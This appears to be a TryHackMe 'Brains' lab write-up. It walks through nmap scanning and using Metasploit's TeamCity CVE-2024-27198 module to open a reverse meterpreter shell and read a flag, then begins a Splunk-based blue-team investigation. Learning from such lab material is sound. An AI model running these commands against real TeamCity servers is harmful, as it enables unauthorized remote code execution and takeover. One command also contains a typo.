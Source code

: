![Nmap Scan](Theme%20Brains.JPG)
> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# RED exploit the server! 
# 1. What is the content of flag.txt in the user's home folder?

<Details>
# 1. First Step: run in the Terminal "nmap -p- "<Target_IP_Address>"

```bash
nmap -p- 10.10.252.192
````
1. "nmap" -> The network scanner tool
2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
3. "<Target_IP_Address>" -> The IP address of the target — in the case of the Brains room
   
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)

# What ports are open and why they matter: 
1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.

# Run a targeted service/version scan for PORT 50000 "nmap -sV -p 50000 <Target_IP_Address>"
```bash
nmap -sV -p 50000 10.10.252.192
```

# 2. Second Step: What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability

*The most interesting one here is Port 50000: even though it's labeled ibm-db2, we know now it runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
```bash
msfconsole
```
1. "msfconsole" -> This launches the Metasploit interface.

```bash
search teamcity
```
1. "search teamcity" -> This will list available exploit modules related to TeamCity
*Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198*

#  Use the module:
```bash
use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
```
# After loading an exploit module in Metasploit, you should always run: 
```bash
options
```
1. "options" -> This command shows you all the configurable parameters for the selected module
   
![Nmap Scan](Brain%20Room%20exploit%20run.JPG)

*We need to set the correct options before running the exploit.*
```bash
set RHOSTS 10.10.252.192     # Target IP address
set RPORT 50000              # Target port where TeamCity is running
```
*Once all the necessary parameters (like RHOSTS, RPORT) are configured and verified using the options command, it's time to execute the exploit*
```bash
run   #or exploit
```
# Expected Output:
*If the target is vulnerable and the configuration is correct, you should see output similar to this:*
```bash
[*] Started reverse TCP handler on 10.10.X.X:4444
[*] Sending stage (57971 bytes) to 10.10.X.X
[*] Meterpreter session 1 opened ...
```
*This confirms that you now have a meterpreter shell on the target machine!*

# Now That We Are in Meterpreter...Navigate the file system
```bash
cd /home/cd ubuntu
ls
```
*Once you find it, read its contents*
```bash
cat flag.txt
```
![Nmap Scan](Brain%20Room%20flag.JPG)

# ✅ CONGRATULATIONS!!! Now we have the first FLAG
# For ethical and platform policy reasons, I cannot display the actual contents of the flag.txt file
*Instead, here is a simulated example of what the output would look like:*

```bash
meterpreter > cat flag.txt
THM{redacted_for_policy}
```
</Details>

# BLUE lets investigate!
# 1. What is the name of the backdoor user which was created on the server after exploitation?
<Details>
   
# 1. First Step: Access the Web Application
*Once the target machine is deployed, open your web browser and navigate to the following address:*
```bash
10.10.249.14:8000
```
1. "10.10.249.14" -> The target machine's IP address
2. "8000" -> The port number

# 2. Second Step:  Access Search & Reporting

*In the left-hand panel, you can see a list of installed apps within Splunk; Click on Search & Reporting*

![Nmap Scan](Brain%20Room%20flag.JPG)
